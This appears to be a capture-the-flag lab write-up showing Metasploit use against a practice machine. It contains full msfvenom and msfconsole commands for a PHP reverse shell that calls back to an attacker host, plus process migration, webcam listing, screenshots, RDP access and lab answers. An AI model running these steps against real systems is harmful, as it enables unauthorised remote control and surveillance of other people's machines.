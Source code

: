 # METASPLOIT

## BASIC INFO
```
export IP=10.10.223.171
```

## RECONNAISSANCE

There is a web server running n port 80.
It allows us to upload file...
Reverse php shell?

## GAINING ACCESS

Generate reverse php shell with msfvenom

```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.8.8.177 lport=9001 -f raw > rev_shell.php

```

Fire up msfconsole to listen on the port for incoming traffic

```
msfconsole

use explot/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost tun0
set lport 9001
run -j
```

Now go to the website and upload the file. Then navigate to the file location.

## PRIVILAGE ESCALATION

In metasploit terminal, type `sessions` to see all open sessions available.
`sessions 1` to interact with the session we just created.

> - **Challenge time! What date was the file fileUpload.php created? Enter your answer as YYYY-MM-DD (convert to GMT)**
>> 2018-12-13

Type `shell` to get a interactive shell on the Windows machine
`sysinfo` to have a look over the system info.

## MAINTAINING ACCESS

Currently the shell is only running on a PHP reverse shell. We need to migrate to another process for a more stable shell.
To migrate we need to upgrade the shell first.

```
ctrl^z
sessions -u 1
sessions 2
migrate -N spoolsv.exe
```
First we background current session. Then we upgrade the session from a PHP shell to a TCP shell. Then we interact with the new shell and migrate into spoolsv.exe (common process to migrate into).

## CHALLENGES

> - **Are there any webcams running on the machine? (other steps maybe required)**
>> No

To solve this challenge we first load in kiwi with `load kiwi`. Then we run the command `webcam_list` to show any webcam on the machine.

> - **Take a screenshot of the system (other steps maybe required)**
>> No answer required.
Since we loaded in kiwi, we can just use `screenshot` to get a screenshot of the Dekstop

> - **RDP into the machine**
>> No answer required
RDP is enabled on this machine. So we can just use
`rdesktop -u <username> -p <password> <ipaddress>` to log in.